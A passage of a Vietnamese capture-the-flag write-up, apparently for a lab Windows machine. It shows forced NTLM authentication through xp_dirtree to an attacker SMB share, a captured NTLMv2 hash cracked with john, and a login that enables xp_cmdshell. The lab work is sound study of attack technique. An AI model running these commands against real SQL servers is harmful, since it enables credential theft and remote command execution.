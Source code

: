 Sau đó ta thực hiện chạy `xp_dirtree \\10.10.14.5\SHARE\` để buộc server nạn nhân phải xác thực với máy attacker bằng NTLM. 

Kết quả thu được: 

```bash
# impacket-smbserver SHARE . -smb2support
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.174.78,49675)
[*] AUTHENTICATE_MESSAGE (QUERIER\mssql-svc,QUERIER)
[*] User QUERIER\mssql-svc authenticated successfully
[*] mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:d928dd3184c5cc70ddc1b568697adc05:010100000000000000fc37214e11db01f0cd010f7157968300000000010010006e004b00430066004500530048006200030010006e004b00430066004500530048006200020010006f0055004500470064006f0066005200040010006f0055004500470064006f00660052000700080000fc37214e11db01060004000200000008003000300000000000000000000000003000007f581169c6700e66ef94aa0fbdd4d52bb2f3eded82e25720eac3289b20d40f0a0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003500000000000000000000000000
```

→ Thu được NTLMv2 hash của user `mssql-svc`

### Crack Password

Có thể sử dụng `john` hoặc `hashcat` để crack NTLMv2 hash với wordlist `rockyou.txt`

```bash
# john -w=/usr/share/wordlists/rockyou.txt NTLMv2Hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
corporate568     (mssql-svc)
1g 0:00:00:04 DONE (2024-09-28 06:28) 0.2164g/s 1939Kp/s 1939Kc/s 1939KC/s correforenz..cornamuckla
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

→ Ta đã có credentials của user `mssql-svc:corporate568`

### MSSQL Login (user mssql-svc)

Sử dụng credentials của user `mssql-svc` để đăng nhập và thực hiện cho phép thực hiện shell command  thành công: 

```bash
# impacket-mssqlclient 'mssql-svc:corporate568@10.129.174.78' -windows-auth
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL (QUERIER\mssql-svc  dbo@master)> enable_xp_cmdshell
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
```